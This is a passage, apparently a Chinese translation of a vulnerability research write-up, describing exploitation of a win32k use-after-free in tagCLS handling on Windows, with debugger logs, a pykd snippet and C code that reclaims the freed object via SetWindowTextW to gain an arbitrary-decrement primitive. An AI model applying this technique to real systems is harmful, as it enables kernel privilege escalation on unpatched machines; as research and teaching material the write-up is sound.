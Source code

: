 ```python
      ptr = pykd.dbgCommand("?eax").split()[4]
      print("[+] ptr = 0x%s" % ptr)
      pykd.dbgCommand("g")
```

想象一下，如果我们在 CopyClientImage 钩子中调用 DestroyWindow 与 UnregisterClass 函数，那会怎样？

这将会导致 位于 tagCLS 中的 cWndReferenceCount 自减，并最终在类型取消注册时造成释放 tagCLS 的后果。

```
kd> g
[+] tagCLS allocated @: fea31ca0
win32k!xxxCreateClassSmIcon+0x7a:
970a3a78 e8b9ecffff            call      win32k!xxxClientCopyImage (970a2736)
kd> be * ; enable desktop heap monitoring breakpoints
kd> g
RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31dd8)
RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31d08)
RtlFreeHeap(0xfea00000, 0x00000000, 0xfea31ca0)
RtlFreeHeap(0xfea00000, 0x00000000, 0xfea313a8)
win32k!xxxCreateClassSmIcon+0x7f:
970a3a7d 8d7758                lea       esi,[edi+58h] ; operating on freed memory
```
## 3.5. 伪造 tagCLS 结构

利用这种类型漏洞的经典方式就是设置通过 SetWindowTextW 设置窗口的标题栏，并因此强制实现任意大小的桌面堆分配。唯一需要注意的是，使用这种技巧的时候，不允许缓冲区中存在单字零，并且为了结束字符串【3】最后两个字节必须是零。
```c
BYTE chunk[0x5c];
memset(chunk, '\x41', 0x5c);
chunk[0x58] = '\xa9';
chunk[0x59] = '\xde';
chunk[0x5a] = '\x00';
chunk[0x5b] = '\x00';
SetWindowTextW(hwnd,chunk);
```
## 3.6. 非法访问

简言之，我们能够通过被替换了的对象（偏移+0x58）使任意地址自减。注意我们只能控制自减地址的两个字节（举个例子，0x0000dead）：
```
kd> g
[+] tagCLS allocated @: fea23718
win32k!xxxCreateClassSmIcon+0x7a:
982d3a78 e8b9ecffff            call     win32k!xxxClientCopyImage (982d2736)
kd> be * ; enable desktop heap monitoring breakpoints
kd> g
RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23850)
RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23780)
RtlFreeHeap(0xfea00000, 0x00000000, 0xfea23718)
RtlFreeHeap(0xfea00000, 0x00000000, 0xfea2b208)
[+] RtlAllocateHeap(0xfea00000, 0x0000005c):
[+] ptr = 0xfea23718 ; replacing the freed object using SetWindowTextW
win32k!xxxCreateClassSmIcon+0x7f:
982d3a7d 8d7758                lea      esi,[edi+58h]
kd> dc 0xfea23718
fea23718     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
fea23728     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
fea23738     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
fea23748     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
fea23758     41414141 41414141 41414141 41414141          AAAAAAAAAAAAAAAA
fea23768     41414141 41414141 0000dea9 00000000          AAAAAAAA........
fea23778     00000003 0000000d fea2b208 fea192b8          ................
fea23788     00000000 00000000 00010017 08000003          ................
kd> g
```